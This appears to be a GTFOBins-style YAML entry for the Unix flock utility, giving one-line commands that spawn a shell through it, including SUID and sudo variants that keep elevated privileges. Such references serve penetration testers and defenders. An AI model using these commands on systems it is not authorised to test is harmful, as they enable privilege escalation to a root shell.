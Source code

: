 functions:
  shell:
    - code: flock -u / /bin/sh
  suid:
    - code: ./flock -u / /bin/sh -p
  sudo:
    - code: sudo flock -u / /bin/sh
---
